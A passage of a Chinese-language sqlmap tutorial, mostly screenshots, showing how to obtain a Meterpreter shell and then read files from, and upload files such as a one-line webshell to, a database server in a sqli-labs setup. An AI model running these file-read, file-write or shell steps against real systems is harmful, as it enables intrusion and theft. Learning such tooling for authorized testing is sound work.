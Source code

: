 [![img](https://p3.ssl.qhimg.com/t01d5600ba16319fb20.png)](https://p3.ssl.qhimg.com/t01d5600ba16319fb20.png)

[![img](https://p2.ssl.qhimg.com/t01715275b9acc1930c.png)](https://p2.ssl.qhimg.com/t01715275b9acc1930c.png)

**然后这里选择payload的类型，我们这里选择默认的1**

which payload do you want to use?nt to use? [11563] ‘ (detected)]
[1] Meterpreter (default)
[2] Shell
[3] VNC
\> 1

[![img](https://p3.ssl.qhimg.com/t01dc5a821ad98334e4.png)](https://p3.ssl.qhimg.com/t01dc5a821ad98334e4.png)

执行完成后，如果不出问题，我们就可以获得一个MSF类型的shell了。

[![img](https://p1.ssl.qhimg.com/t011858b704025dfe6a.png)](https://p1.ssl.qhimg.com/t011858b704025dfe6a.png)

### 读取服务器文件(—file-read)

当数据库为MySQL、PostgreSQL或SQL Server，并且当前用户有权限时，可以读取指定文件，可以是文本文件或者二进制文件。

```python
sqlmap -u "http://192.168.10.1/sqli/Less-4/?id=1" --file-read "c:/test.txt" #读取目标服务器C盘下的test.txt文件
```

[![img](https://p5.ssl.qhimg.com/t01b427170c4f0ab056.png)](https://p5.ssl.qhimg.com/t01b427170c4f0ab056.png)

可以看到，文件读取成功了，并且保存成了 /root/.sqlmap/output/192.168.10.1/files/c__test.txt 文件

### [![img](https://p5.ssl.qhimg.com/t013ae8d3a38bbf4e30.png)](https://p5.ssl.qhimg.com/t013ae8d3a38bbf4e30.png)

### 上传文件到数据库服务器中(—file-write —file-dest)

当数据库为MySQL、Postgre SQL或者Sql Server(通过powershell写入)，并且当前用户有权限向任意目录写文件的时候，可以上传文件到数据库服务器。文件可以是文本，也可以是二进制文件。

所以利用上传文件，我们可以上传一句话木马或者上传shell上去。

前提是我们知道网络的绝对路径

```python
python2 sqlmap.py -u http://192.168.10.130/sqli-labs/Less-2/?id=1 --file-write C:\Users\mi\Desktop\1.php --file-dest "C:\phpStudy\PHPTutorial\WWW\2.php"  #将本地的C:\Users\mi\Desktop\1.php文件上传到目标服务器C:\phpStudy\PHPTutorial\WWW\2.php
```

[![img](https://p2.ssl.qhimg.com/t01d920ad318047b01b.png)](https://p2.ssl.qhimg.com/t01d920ad318047b01b.png)

这里会问我们是否想验证上传成功，我们选择 y 的话，他就会读取该文件的大小，并且和本地的文件大小做比较，只要大于等于本地文件大小即说明上传功能了

[![img](https://p4.ssl.qhimg.com/t01b2207ac0c22f171d.png)](https://p4.ssl.qhimg.com/t01b2207ac0c22f171d.png)

[![img](https://p1.ssl.qhimg.com/t01ec317729423cc757.png)](https://p1.ssl.qhimg.com/t01ec317729423cc757.png)



文章来源：[Sqlmap使用详解](https://www.anquanke.com/post/id/235846)